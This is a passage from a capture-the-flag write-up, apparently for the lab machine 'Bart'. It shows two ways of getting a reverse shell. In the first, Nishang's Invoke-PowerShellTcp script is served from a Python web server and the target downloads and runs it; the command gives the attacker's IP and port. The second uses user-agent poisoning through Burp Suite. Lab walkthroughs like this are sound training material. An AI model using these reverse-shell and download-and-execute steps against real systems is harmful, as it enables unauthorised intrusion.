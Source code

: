 ```
Now having access to the command prompt from Bart, it's time to get a reverse shell  with powershell, but before that we must set up our web server in order to download our powershell script from [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Remember to add ```Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.36 -Port 4444``` in the last line of the script in order to get the reverse shell to our localhost. So let's set the web server up:
```
python -m SimpleHTTPServer 80
```
and let's make the request in order to download and execute the powershell script from nishang. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/python-getting-shell.png" alt="python-getting-shell">

Setting up our netcat listener and we got a shell!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/shell-gotten.png" alt="shell-gotten">

## Getting a shell using BurpSuite
So, to get the code execution in burpsuite we have to intercept the request and modify the user-agent as I explained before. In this case we make a request and some poisoning in the server.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/burp-poison.png" alt="burp-poison">

After we did the request, we can execute code as it would be the command prompt from the system. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/authority-answer.png" alt="authority-answer">

Then now it's time to execute the command that will get us our powershell script from Nishang and get us the reverse shell. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/shell-gotten2.png" alt="shell-gotten2">

and wolah, we got our shell!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/bart/shell-gotten.png" alt="shell-gotten">

## Privilege Escalation. 


